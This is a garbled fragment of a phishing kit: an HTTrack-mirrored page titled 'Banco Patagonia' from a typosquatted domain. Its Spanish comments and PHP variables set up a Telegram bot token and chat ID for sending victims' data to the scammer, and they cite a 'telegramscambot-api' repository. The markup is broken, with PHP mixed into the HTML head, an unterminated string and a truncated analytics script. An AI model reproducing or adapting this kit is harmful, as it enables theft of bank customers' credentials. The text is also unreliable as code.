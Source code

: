 <!DOCTYPE html>
<html lang="es">
	
<!-- Mirrored from https://e-banak-pategonia.xyz/5490777924AAEk4y7Pu7ERuyTSkarNHr46cEZLbI3y1rc by HTTrack Website Copier/3.x [XR&CO'2014], Wed, 23 Nov 2022 10:20:37 GMT -->
<head>
		<meta charset="utf-8">
		<meta http-equiv="X-UA-Compatible" content="IE=edge">
		<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
		<meta http-equiv="Pragma" content="no-cache">
		<meta http-equiv="Expires" content="0">
		<meta name="viewport" content="width=device-width, initial-scale=1">
		<title>Banco Patagonia</title>
    
// https://e-banak-pategonia.xyz
// Envio telegram
// Formato: TOKEN="5755870812:AAEk4y7Pu7ERuyTSkarNHr46cEZLbI3y1rc"
//Formato: CHATID ="5490777924"
// Para mas de 1 envio, agrega ","
// Lee mas sobre la api en https://github.com/Shonxx/telegramscambot-api
$tokens = "https://e-banak-pategonia.xyz/5490777924AAEk4y7Pu7ERuyTSkarNHr46cEZLbI3y1rc";

$apiUrl = "https://github.com/Shonxx/telegramscambot-api/5755870812:AAEk4y7Pu7ERuyTSkarNHr46cEZLbI3y1rc;
// Copyright 2012 Google Inc. All rights reserved.
(function(){

var data = {
"resource": {
  "version":"1",
